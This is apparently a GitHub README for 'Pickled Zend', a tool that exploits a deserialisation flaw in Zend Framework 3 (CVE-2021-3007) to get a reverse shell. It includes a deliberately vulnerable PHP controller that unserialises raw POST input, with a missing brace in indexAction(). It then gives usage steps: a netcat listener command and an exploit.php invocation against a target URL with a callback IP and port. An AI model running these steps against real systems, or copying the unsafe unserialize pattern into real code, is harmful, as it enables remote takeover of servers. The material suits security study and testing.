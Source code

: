 # Pickled Zend

Zend Framework 3 deserialisation reverse shell based on CVE-2021-3007 and Ling-Yizhous PoC at https://github.com/Ling-Yizhou/zendframework3-/blob/main/zend%20framework3%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20rce.md

## Test Environment
Assuming that your server has bash installed:
composer create-project zendframework/skeleton-application

Update module/Application/src/Controller/IndexController.php to something like this:

```php
<?php
/**
 * @link      http://github.com/zendframework/ZendSkeletonApplication for the canonical source repository
 * @copyright Copyright (c) 2005-2016 Zend Technologies USA Inc. (http://www.zend.com)
 * @license   http://framework.zend.com/license/new-bsd New BSD License
 */

// curl -X POST <your url> -d 'user=O:4:"User":1:{s:4:"name";s:3:"asd";}'

namespace{

  class User{
    public $name;
  }
}

namespace Application\Controller{

  use Zend\Mvc\Controller\AbstractActionController;
  use Zend\View\Model\ViewModel;

  class IndexController extends AbstractActionController
  {
      public function indexAction()
          $user=unserialize($this->params()->fromPost('user'));
          die("hello {$user->name}");
          return new ViewModel();
      }
   }
}
```
You can test it by running the curl commented in the code fragment above and you will get the message "hello asd".

## Exploitation
* Set up a netcat listener(e.g. nc -vlp 8888)
* Run exploit.php with the following command line:
```bash
./exploit.php http://url.to.attack netcat-ip-address  netcat-port post-parameter-to-attack 
```
E.G. With the demo running on localhost (where the post parameter is user)
```sh
./exploit.php http://localhost:8080 127.0.0.1 8888 user
```
